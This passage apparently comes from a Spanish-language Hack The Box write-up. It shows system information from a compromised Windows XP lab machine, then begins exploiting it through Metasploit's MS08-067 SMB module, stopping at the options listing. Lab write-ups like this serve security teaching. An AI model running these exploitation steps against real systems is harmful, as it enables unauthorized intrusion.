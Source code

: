 ``` text
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
Registered Owner:          user
Registered Organization:   HTB
Product ID:                55274-643-7213323-23904
Original Install Date:     16/3/2017, 7:32:23
System Up Time:            0 Days, 0 Hours, 19 Minutes, 35 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1998 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     511 MB
Available Physical Memory: 395 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 2.009 MB
Virtual Memory: In Use:    39 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
NetWork Card(s):           1 NIC(s) Installed.
                           [01]: AMD PCNET Family PCI Ethernet Adapter
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.4

C:\WINDOWS\system32>
```

## Metasploit
Iniciamos metasploit y seleccionamos **exploit(/windows/smb/ms08_067_netapi**. Inicializamos las variables con sus valores correspondientes y ejecutamos "exploit":

``` text
msf5 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


msf5 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
```